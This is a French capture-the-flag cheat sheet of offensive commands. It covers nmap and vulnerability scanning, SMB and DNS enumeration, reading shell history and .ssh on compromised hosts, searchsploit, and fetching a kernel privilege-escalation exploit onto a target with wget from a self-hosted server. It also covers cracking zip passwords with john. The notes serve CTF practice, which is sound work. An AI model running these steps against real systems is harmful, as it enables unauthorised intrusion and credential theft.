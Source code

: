 # Capture The Flag

- [Reconnaissance](#reconnaissance)
  - [Scan de port](#scan-de-port)
  - [TODO Enumération SMB](#todo-enumération-smb)
- [Metasploit](#metasploit)
- [DNS](#dns)
- [Vulnérabilités](#vulnérabilités)
- [Local Privilege Escalation](#local-privilege-escalation)
- [Cassage de mot de passe](#cassage-de-mot-de-passe)
- [SQLite](#sqlite)

---

Liens :
- https://attack.mitre.org/matrices
- https://www.thehacker.recipes
- https://nicolasb.fr/blog/dghack-my-second-ctf

Départ :
- commencer par brancher le câble réseau 😉
- lancer Wireshark pour observer ce qu'il se passe sur la ligne
- s'assigner une IP sur le même réseau

## Reconnaissance

De manière générale :
- remarquer les versions

Si t'obtiens un accès sur un linux/windows :
- regarder l'historique des commandes
- regarder dans `$HOME/.ssh/`
- regarder la table ARP (pour découvrir des hôtes sans faire de scan)
- regarder les routes pour découvrir d'autres réseaux

Sur Linux :
```bash
history
find /root /home -name *history*

find {/root,/home/*}/.ssh

ip n
ip -br a; echo; ip r
```

Sur Windows :
```powershell
ipconfig -all
arp -a
route
```

### Scan de port

```bash
# pinguer tout les hôtes d'un réseau (port 80 + ICMP echo-request)
nmap -T4 -sP 192.168.0.0/24

# scan discret (n'envoi que des TCP SYN, connexion remonte pas à la couche 7, moins de log)
nmap -T4 -sS <ip>

# OS + info sur les services
nmap -T4 -A -oA scan1 <ip>
# scan de vuln
nmap -T4 -sV --script vulners -oA scan1 <ip>
# sur une plage de port
nmap -T4 -sV --script vulners -oA scan1 <ip> -p 1023-10000
```

### TODO Enumération SMB

Si les ports `139` et `445` sont ouverts, il y a des chances que SMB tourne sur la machine.

```bash
enum4linux -U <ip>
```

## Metasploit

`msfconsole`

## DNS

Si on a trouvé un serveur DNS :
```bash
echo 'nameserver <ip>' >> /etc/resolv.conf
```

Voir tous les enregistrements d'un domaine :
```bash
host -a example.com
```

Mapper un domaine : https://dnsdumpster.com

Pour faire un transfert de zone :
```bash
dig AXFR domain.name @192.168.1.53
```

## Vulnérabilités

Pour chercher des vulnérabilités :
- https://www.exploit-db.com
- https://nvd.nist.gov/vuln/search

ou la commande `searchsploit`:
```bash
# pour chercher (case insensitive AND)
searchsploit cutenews
# lire l'exploit
searchsploit -x <filename>
# copier l'exploit dans le CWD
searchsploit -m <filename>
```

## Local Privilege Escalation

Sur la machine cible :
```bash
# obtenir la version du noyau Linux
uname -a

# télécharger l'exploit (et le stocker en RAM)
wget URL > /dev/shm/lpe
```

Sur ta machine :
```bash
# regarder s'il existe des exploit
searchsploit 4.15
# le télécharger
searchsploit -m <filename>
# l'héberger
python -m SimpleHTTPServer
```

## Cassage de mot de passe

Pour extraire le hash du mot de passe d'un zip : `zip2john file.zip > hash.txt`

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## SQLite

```bash
sqlitebrowser fichier.sqlite
```
